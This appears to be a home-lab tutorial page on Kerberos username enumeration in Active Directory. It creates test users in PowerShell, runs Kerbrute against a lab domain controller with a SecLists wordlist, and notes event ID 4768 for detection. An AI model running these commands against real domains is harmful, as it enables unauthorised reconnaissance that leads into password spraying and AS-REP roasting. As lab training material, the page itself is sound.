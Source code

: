 ```yaml
---
description: >-
  It is possible to enumerate valid usernames without authentication by sending
  TGT requests with no pre-authentication.
---
```


# Username Enumeration

## Configuring

1. To implement the attack we need to create a couple users with easy guessable usernames. To do this we can choose some usernames from a popular [list of usernames](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/xato-net-10-million-usernames.txt) from the [SecLists](https://github.com/danielmiessler/SecLists) repository. We will create the following users:

```
john
david
robert
chris
mike
dave
richard
thomas
steve
mark
```

### Creating users

2\. Previously we created users by using the GUI. Now we will create users using PowerShell. Create the file `users.txt` and place the usernames in there. Then create the users:

```
# Place users in users.txt
cd C:\
notepad users.txt

# Creating users
$password = ConvertTo-SecureString 'ReallySecurePassword123!' -AsPlainText -Force
$files = Get-Content -Path C:\users.txt
ForEach ($name in $files) {
New-ADUser -Name "$name" -GivenName "$name" -SamAccountName "$name" -UserPrincipalName $name@amsterdam.bank.local -Path "OU=Employees,DC=amsterdan,DC=bank,DC=local" -AccountPassword $password -Enabled $true
}
```

![](<../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png>)

3\. Run the command below to get a list of all the users and check if the users are created:

```
Get-ADUser -Filter * | Select-Object Name
```

![](<../../../.gitbook/assets/image (15) (2) (1).png>)

## Attacking

### How it works

> _To enumerate usernames, send TGT requests with no pre-authentication. If the KDC responds with a `PRINCIPAL UNKNOWN` error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists._
>
> _Source:_ [_https://github.com/ropnop/kerbrute#user-enumeration_](https://github.com/ropnop/kerbrute#user-enumeration)\_\_

### Executing the attack

1. To enumerate usernames we can use the tool [Kerbrute](https://github.com/ropnop/kerbrute). To install Kerbrute on Kali download the latest [release](https://github.com/ropnop/kerbrute/releases) from GitHub and save it somewhere. I would recommend `/opt`.

![](<../../../.gitbook/assets/afbeelding (31).png>)

2\. For the list of usernames download the [xato-net-10-million-usernames.txt](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/xato-net-10-million-usernames.txt) list from [SecLists](https://github.com/danielmiessler/SecLists).

```
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/xato-net-10-million-usernames.txt
```

3\. After downloading the tool and the username list run Kerbrute against the domain `amsterdam.bank.local` and DC `10.0.0.3`. Pipe the command to `tee` to save the output to the txt file `username_enum.txt`.&#x20;

```
./kerbrute_linux_amd64 userenum -d amsterdam.bank.local --dc 10.0.0.3 xato-net-10-million-usernames.txt | tee username_enum.txt
```

These valid users can be used for AS-REP roasting or Password Spraying Attacks. For now save these users to `usernames.txt`.

![](<../../../.gitbook/assets/image (22) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

4\. To only get a list of usernames execute the following which will cut the output to only get the usernames, changes everything to lowercase and sorting for unique entries:

```
cat username_enum.txt | grep bank.local | cut -d " " -f 8- | cut -d "@" -f 1 | sed 's/./\L&/g' | sort -u > users.txt

cat users.txt                                                                                                       
administrator
bank
chris
dave
david
john
mark
mike
richard
robert
steve
thomas
```

5\. From here we can execute the following attacks to gain access to the domain:



{% content-ref url="password-spraying.md" %}
[password-spraying.md](password-spraying.md)
{% endcontent-ref %}

{% content-ref url="empty-password.md" %}
[empty-password.md](empty-password.md)
{% endcontent-ref %}

{% content-ref url="as-rep-roasting.md" %}
[as-rep-roasting.md](as-rep-roasting.md)
{% endcontent-ref %}

## Defending

### Recommendations

* I don't know any configurations to block the enumeration of usernames. The best way to block this is using a non traditional naming convention for the samaccountnames.

### Detection

The attack generates the Windows event ID [4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) "A Kerberos authentication ticket (TGT) was requested" if Kerberos logging is enabled.

**Work in Progress**

## References

{% embed url="https://github.com/danielmiessler/SecLists" %}

{% embed url="https://github.com/ropnop/kerbrute" %}
